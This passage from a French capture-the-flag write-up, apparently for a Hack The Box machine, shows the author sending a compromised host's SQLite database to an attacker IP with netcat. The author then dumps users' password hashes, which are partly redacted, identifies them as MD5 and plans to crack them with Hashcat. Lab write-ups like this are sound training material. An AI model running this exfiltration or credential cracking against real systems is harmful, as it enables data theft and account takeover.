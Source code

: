 ```bash
cd instance

ls
database.db

nc -w 3 10.10.14.37 9001 < database.db
```

En écoutant avec {% include dictionary.html word="Netcat" %} sur notre machine, nous récupérons la base de données

```bash
nc -lvnp 9001 > database.db 
listening on [any] 9001 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.38] 58882

ls -hl                     
total 28K
-rw-rw-r-- 1 tiflo tiflo 20K 26 oct.  12:18 database.db
```

Nous pouvons ouvrir et naviguer dans la base de données grâce à l'outil `sqlite3` :

```bash
sqlite3 database.db
```

```sql
.tables
structure  user
select * from user;
1|admin|2861[...expurgé...]52abf
2|app|1978[...expurgé...]9886a
3|rosa|63ed[...expurgé...]251a5
4|robert|02fc[...expurgé...]6b467
[...expurgé pour brièveté...]
15|tiflo|903ef2[...expurgé...]532aef
[...expurgé pour brièveté...]
```

Nous y retrouvons même nos identifiants utilisés pour interagir avec l'application. Mais plus important : nous trouvons des identifiants pour `rosa`.

Nous commençons par utiliser `hash-identifier` pour déterminer le chiffrement du mot de passe :

```bash
hash-identifier
HASH: 63ed[...expurgé...]251a5

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Puis nous utiliserons {% include dictionary.html word="Hashcat" %} pour tenter de forcer le mot de passe.
